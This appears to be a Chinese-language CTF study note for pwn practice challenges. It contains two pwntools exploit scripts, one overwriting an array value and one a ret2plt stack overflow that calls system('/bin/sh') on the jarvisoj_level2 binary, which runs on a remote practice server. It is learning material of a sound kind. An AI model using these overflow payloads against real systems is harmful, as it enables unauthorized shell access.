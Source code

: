 





编译过程的各个应用及其细节

![image-20220920140435080](images/image-20220920140435080.png)

字母占多少字节?

<img src="images/image-20220920140906509.png" alt="image-20220920140906509" style="zoom:50%;" />





#### 题目

![image-20220920170603518](images/image-20220920170603518.png)





17LL ll是什么意思?? typedef      long long ll; 所以就是十进制

参考

https://blog.csdn.net/m0_43406494/article/details/109110983

让输入的数组的14位等于17即可



```python
from pwn import *

context.log_level= "debug"

io = process("./pwn")

#payload = p32(17) * 14
payload = p32(0x0)*13 + p32(17)
io.recvuntil("name?")
io.sendline(payload)

io.interactive()
```





## jarvisoj_level2

![image-20220920172846673](images/image-20220920172846673.png)

![image-20220920172859138](images/image-20220920172859138.png)

发现/bin/sh

![image-20220920173132605](images/image-20220920173132605.png)

如何利用那个system呢?

![image-20220920173401480](images/image-20220920173401480.png)

![image-20220920173908502](images/image-20220920173908502.png)

![image-20220920174848196](images/image-20220920174848196.png)

栈的结构又忘了..找一下图



```python
from pwn import *

context.log_level= "debug"

#io = process("./pwn")
io = remote("node4.buuoj.cn",27523)

payload = b'a'*140 + p32(0x08048320) +p32(0)+ p32(0x0804A024)
io.sendlineafter('Input:',payload)

io.interactive()
```



有两点需要注意,一个是溢出要先覆盖上一个函数的ebp,这个是32位的,所以+4, 64位的+8

第二个是 加 那个 p32(0), 这里可以随便加,这里是执行system函数后的存储地址



这里其实有好几个system的地址

0x08048320 是plt的

payload = b'a'*140 + p32(0x08048320) +p32(0)+ p32(0x0804A024)

0x0804849e 是对system的调用,直接加入参数即可

payload = b'a'*140 + p32(system_addr) + p32(binsh_addr)









